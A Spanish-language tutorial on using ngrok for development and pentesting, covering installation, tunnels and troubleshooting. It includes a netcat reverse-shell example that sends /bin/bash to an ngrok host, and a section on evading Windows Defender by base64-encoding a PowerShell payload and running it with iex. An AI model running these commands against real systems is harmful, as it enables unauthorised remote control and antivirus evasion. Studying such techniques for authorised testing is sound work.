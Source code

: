 
---

# Guía Básica de Ngrok para Pentesting y Desarrollo

Ngrok es una herramienta esencial cuando necesitamos exponer servicios locales a Internet, especialmente útil en entornos de pruebas de seguridad, debugging remoto y CTFs. A continuación, desarrollamos una guía pedagógica y práctica sobre su uso.

---

## ¿Qué es Ngrok?

> **Ngrok** nos permite exponer un puerto local mediante un túnel seguro a través de una dirección accesible desde Internet. Esto elimina la necesidad de configurar reenvío de puertos, DNS o servidores intermedios.

## Casos de uso principales

- Pruebas de desarrollo web sin despliegue.
    
- Recepción de peticiones Webhook (ej. Stripe, GitHub).
    
- Acceso remoto a entornos locales.
    
- Recepción de Reverse Shells desde máquinas remotas.
    
- Pruebas de vulnerabilidades tipo Blind XXE, LFI, RCE.
    

---

## Instalación

### En Linux

```bash
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
ngrok --version
```

### En Windows

1. Descargamos desde: [https://ngrok.com/download](https://ngrok.com/download)
    
2. Extraemos y movemos `ngrok.exe` a una carpeta accesible.
    
3. Ejecutamos:
    

```powershell
ngrok --version
```

---

## Configuración inicial con cuenta (opcional pero recomendable)

Para usar funcionalidades extendidas:

1. Creamos una cuenta gratuita.
    
2. Obtenemos nuestro `authtoken`.
    
3. Lo configuramos:
    

```bash
ngrok config add-authtoken TU_AUTHTOKEN
```

---

## Uso básico: Exponer puertos locales

### Servidor HTTP

```bash
ngrok http 8080
```

Ngrok genera una URL como:

```
https://abc123.ngrok.io
```

### Túnel TCP (ej. Reverse Shell con Netcat)

```bash
ngrok tcp 4444
```

Ngrok devuelve:

```
tcp://0.tcp.ngrok.io:12345
```

Las conexiones a esa IP:puerto llegarán a nuestra máquina local:4444.

---

## Ejemplo: Reverse Shell con Netcat

1. En nuestra máquina atacante:
    

```bash
nc -lvnp 4444
```

2. Creamos el túnel:
    

```bash
ngrok tcp 4444
```

3. En la víctima:
    

```bash
nc 0.tcp.ngrok.io 12345 -e /bin/bash
```

Esto enviará una reverse shell a nuestro listener.

---

## Comandos últiles

- Ver sesiones activas:
    

```bash
ngrok status
```

- Ver estadísticas de peticiones:
    

```bash
ngrok http 8080 -inspect
```

- Finalizar túneles activos:
    

```bash
ngrok kill
```

---

## Problemas comunes y soluciones

1. **"command not found"**:
    
    - Verificamos instalación:
        
    
    ```bash
    which ngrok
    sudo mv ngrok /usr/local/bin/
    ```
    
2. **"Your account is limited to 1 tunnel"**:
    
    - Solo podemos tener un túnel activo a la vez (cuenta gratuita).
        
    - Cerramos túneles previos:
        
    
    ```bash
    ngrok kill
    ```
    
3. **"Too many connections"**:
    
    - Cambiamos de región:
        
    
    ```bash
    ngrok tcp -region=eu 4444
    ```
    
4. **Ngrok se desconecta tras unos minutos**:
    
    - Solución:
        
    
    ```bash
    ngrok config add-authtoken TU_TOKEN
    ```
    
5. **No recibimos conexiones**:
    
    - Verificamos que `nc` esté escuchando:
        
    
    ```bash
    nc -lvnp 4444
    ```
    
    - Reiniciamos el túnel:
        
    
    ```bash
    ngrok tcp 4444
    ```
    

---

## Evitar detección en Windows Defender

En entornos controlados, evitamos detección codificando el payload en Base64:

1. Codificamos:
    

```powershell
$script = '...'
[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($script))
```

2. En la víctima:
    

```powershell
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("BASE64_CODE")) | iex
```

---

## Automatizar reconexión de túnel

Para que el túnel se mantenga activo:

```bash
while true; do
  ngrok tcp 4444
  sleep 28800  # Reinicia cada 8 horas
done
```

---

## Recomendaciones de seguridad

- No compartimos URLs de Ngrok en entornos públicos.
    
- Usamos HTTPS siempre que sea posible.
    
- Protegemos los servicios expuestos con autenticación si procede.
    
- Evitamos exponer servicios críticos sin control.
    

---

## Glosario rápido

|Término|Definición|
|---|---|
|Túnel|Conexión entre un puerto local y una URL pública.|
|Authtoken|Clave para vincular nuestra cuenta Ngrok con nuestro entorno local|
|Reverse Shell|Conexión saliente desde víctima hacia atacante.|
|Subdominio|URL como `*.ngrok.io` que redirige hacia nuestra máquina local|
|Dashboard|Interfaz web para ver el tráfico y estadísticas del túnel|

---

